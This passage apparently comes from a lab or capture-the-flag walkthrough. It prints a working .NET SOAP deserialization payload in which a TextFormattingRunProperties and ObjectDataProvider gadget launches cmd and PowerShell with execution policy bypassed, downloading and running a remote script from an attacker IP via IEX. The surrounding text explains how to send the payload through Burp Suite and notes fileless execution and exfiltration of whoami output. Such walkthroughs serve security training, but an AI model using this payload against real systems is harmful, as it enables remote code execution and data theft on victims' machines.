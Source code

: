 ```bash
                   xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                   xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
                   xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
                   xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0"
                   SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <a1:TextFormattingRunProperties id="ref-1"
                                  xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
    <ForegroundBrush id="ref-3">
      &lt;ResourceDictionary
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:System="clr-namespace:System;assembly=mscorlib"
        xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"&gt;
        &lt;ObjectDataProvider x:Key="" ObjectType="{x:Type Diag:Process}" MethodName="Start" &gt;
          &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;System:String&gt;cmd&lt;/System:String&gt;
            &lt;System:String&gt;"/c powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')\""&lt;/System:String&gt;
          &lt;/ObjectDataProvider.MethodParameters&gt;
        &lt;/ObjectDataProvider&gt;
      &lt;/ResourceDictionary&gt;
    </ForegroundBrush>
  </a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>


```

> [Note] Make sure to place the IP address of your attacker machine in the above request.


Send the above request from Burp Suite:


> We can see the output of the **whoami** command being transmitted in the HTTP GET parameter. 

> This is because PowerShell fetched the remote resource and then immediately executed it using the IEX command. Note that we haven't even touched the filesystem!


